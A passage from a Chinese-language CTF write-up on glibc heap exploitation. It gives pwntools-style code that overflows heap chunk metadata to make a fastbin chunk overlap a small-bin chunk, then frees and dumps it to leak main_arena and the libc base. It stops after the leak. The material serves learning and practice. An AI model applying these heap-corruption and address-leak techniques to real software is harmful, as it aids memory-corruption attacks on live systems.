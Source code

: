 ```python
alloc(0x10) #0
alloc(0x10) #1
alloc(0x10) #2
alloc(0x10) #3
alloc(0x80) #4
alloc(0x10) #5
```

我们知道，free掉4后，将会把main_arena的地址写在堆块上，但是我们没有办法把数据读出来。怎么办呢？我们可以利用fast bin 分配一个堆块，其指针指向堆块4，进而我们就可以将main_arena地址读出。
其代码如下

```python
#leack libc
free(1)
free(2)
payload=p64(0)+p64(0)+p64(0)+p64(0x21)+p64(0)+p64(0)+p64(0)+p64(0x21)+'\x80'
fill(0,len(payload),payload)
payload=p64(0)+p64(0)+p64(0)+p64(0x21)
fill(3,len(payload),payload)
alloc(0x10) #1
alloc(0x10) #2
payload=p64(0)+p64(0)+p64(0)+p64(0x91)
fill(3,len(payload),payload)
free(4)
dump(2)
```

我们调试一下这个过程，来帮助大家更好的理解。

这是最初分配的堆块

![image.png](https://i.loli.net/2020/05/20/GpL64vB72bdKSx1.png)

free掉1和2后

![image.png](https://i.loli.net/2020/05/20/lkfoWpymGNrh32E.png)

若将箭头1处的地址修改为0x562e6e252080，虽然开启了地址随机化，但是地址最后三个字节不会改变，因此我们只需要溢出将0x20改为0x80，再将0x91修改为0x21就可以分配一个fastbin的地址为small bin的地址处。

![image.png](https://i.loli.net/2020/05/20/bXAmvTPQoySIr6G.png)

可以看到，有两个指针指向同一个堆块。而这个堆块就是我们的small bin

![image.png](https://i.loli.net/2020/05/20/lN4SMhXj1FpAw3c.png)

我们再次利用堆溢出，将smallbin的大小恢复为0x91，然后free掉这个堆块。

![image.png](http://149.28.144.59:8090/upload/2020/4/image-aba1560ec23c44c8aa95d52eb604c7e7.png)

free掉smallbin后，其fd和bk将会指向main_arena的地址，通过dump()就可以将main_arena给泄漏出来

利用vmmap我们可以获得libc的基址
